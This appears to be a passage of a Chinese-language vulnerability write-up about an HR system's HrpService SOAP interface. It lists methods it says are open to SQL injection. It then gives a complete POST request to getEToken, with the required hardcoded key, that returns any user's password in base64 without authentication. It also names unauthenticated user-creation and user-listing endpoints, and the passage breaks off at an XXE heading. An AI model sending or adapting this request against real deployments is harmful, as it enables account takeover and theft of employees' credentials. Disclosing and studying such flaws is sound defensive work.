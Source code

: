 ![](https://mmbiz.qpic.cn/mmbiz_png/IS2RlFMDPK4FyQqaUrjRrSC0GlgjRYwVVib44ELeCh5Vg3wf2KjCJnzHoPyf2IwtldxHxlHA1Qa5IIQ9I01fEHg/640?wx_fmt=png&from=appmsg "")  
  
  
services的很多地方存在sql注入，  
  
  
removeUser、changeUserOrg、validateUserId、getAllOrganizations、getUsersByDeptId、getUsersByOrgId、batchAppend、batchUpdate、batchDelete、  
  
  
updateEnabled、getCodeIdByCodeDesc、getObjectByParam、isExist、isExecuteSql、initExecuteSql、isProtecting、updateInfoByMap、  
  
  
batchAppend、batchUpdate、batchDelete、  
  
  
getKqItem，updateEnabled，isExistOrg、getCodeIdByCodeDesc、isExist，isExecuteSql，................  
  
  
  
###### 前台查询所有用户密码-HrpService接口（XFire）  
  
  
 base64解密得到密码，  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/IS2RlFMDPK4FyQqaUrjRrSC0GlgjRYwVBMZyJn3Xtv1mcA6wlOlnHf3QMEdIQc7cickzS2hCJvAxaPhN2sWticdw/640?wx_fmt=png&from=appmsg "")  
  
```
POST /services/HrpService HTTP/1.1Host: xxxCookie: xxxUser-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:136.0) Gecko/20100101 Firefox/136.0Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2Accept-Encoding: gzip, deflateContent-Type: application/xmlUpgrade-Insecure-Requests: 1Sec-Fetch-Dest: documentSec-Fetch-Mode: navigateSec-Fetch-Site: noneSec-Fetch-User: ?1Priority: u=0, iTe: trailersConnection: closeContent-Length: 392<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"                   xmlns:hr="http://www.hjsj.com/HrpService">   <soapenv:Header/>   <soapenv:Body>      <hr:getEToken>         <arg0>aaa</arg0>         <arg1>c42YFCcwuJdC3uZF9CNUF/kDRn33hWpx</arg1>        <arg2>bjzz</arg2>      </hr:getEToken>   </soapenv:Body></soapenv:Envelope>
```  
  
入口getEToken函数，需要满足checkKey条件，因此传入到第二个参数必须为c42YFCcwuJdC3uZF9CNUF/kDRn33hWpx，  
  
  
UserView var7 = var4.getSetView(var1, "", "false", var6); 会通过我们传入的用户名查询用户所有信息，  
  
  
最终566行返回用户名和密码的base64密文，  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/IS2RlFMDPK4FyQqaUrjRrSC0GlgjRYwVSQF2Yd9BmErZabsXEYOXb6ibt45PUm6PAtEG2d8znzFLHr5LQ4nwOOQ/640?wx_fmt=png&from=appmsg "")  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/IS2RlFMDPK4FyQqaUrjRrSC0GlgjRYwVDrnfjibjLCmjcTibFd38VoOh4icYj5xIyLKbTyTyElLE6VZibr5oV0uWPw/640?wx_fmt=png&from=appmsg "")  
![](https://mmbiz.qpic.cn/mmbiz_png/IS2RlFMDPK4FyQqaUrjRrSC0GlgjRYwVRLlBElVlBgPN8t9SL92yJoCqibOapLDC1devOhticmclUnibs6Yq6O0fA/640?wx_fmt=png&from=appmsg "")  
  
  
还有任意用户添加接口、查询所有用户接口，  
  
  
HrService-》createUser   getAllUsers  
  
###### 前台xxe-HrpService接口（XFire）  
  